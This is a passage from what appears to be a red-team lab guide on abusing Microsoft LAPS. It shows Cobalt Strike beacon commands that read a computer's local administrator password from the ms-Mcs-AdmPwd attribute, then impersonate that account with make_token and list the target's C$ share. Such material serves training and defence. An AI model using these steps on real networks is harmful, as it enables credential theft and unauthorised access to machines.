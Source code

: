 <mark style="color:yellow;">`Find-AdmPwdExtendedRights`</mark> goes a little deeper and queries each individual computer for users that have "All Extended Rights". &#x20;

This will reveal any users that can read the attribute without having had it specifically delegated to them.

**To get a computer's password, simply read the attribute:**

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
1N3FyjJR5L18za
```

**The&#x20;**<mark style="color:yellow;">**`make_token`**</mark>**&#x20;command is an easy way to leverage it:**

```
beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
[+] Impersonated DEV\bfarmer

beacon> ls \\wkstn-1\c$
[*] Listing: \\wkstn-1\c$\

Size     Type    Last Modified         Name
----     ----    -------------         ----
          dir     08/16/2022 08:17:30   $Recycle.Bin
          dir     08/15/2022 22:22:31   $WinREAgent
          dir     01/27/2022 18:18:49   Documents and Settings
          dir     12/07/2019 09:14:52   PerfLogs
          dir     08/22/2022 00:15:03   Program Files
          dir     10/06/2021 13:57:25   Program Files (x86)
          dir     09/14/2022 09:50:27   ProgramData
          dir     08/17/2022 17:52:54   Recovery
          dir     09/14/2022 09:35:54   System Volume Information
          dir     08/16/2022 08:15:58   Users
          dir     09/09/2022 10:38:50   Windows
 8kb      fil     09/14/2022 08:12:19   DumpStack.log.tmp
 796mb    fil     09/14/2022 08:12:19   hiberfil.sys
 704mb    fil     09/14/2022 08:12:19   pagefile.sys
 16mb     fil     09/14/2022 08:12:19   swapfile.sys
```

## Password Expiration Protection

One of the LAPS policy settings is called "Do not allow password expiration time longer than required by policy".

In short, this is the `PwdExpirationProtectionEnabled` configuration that we read from the `Registry.pol` file.
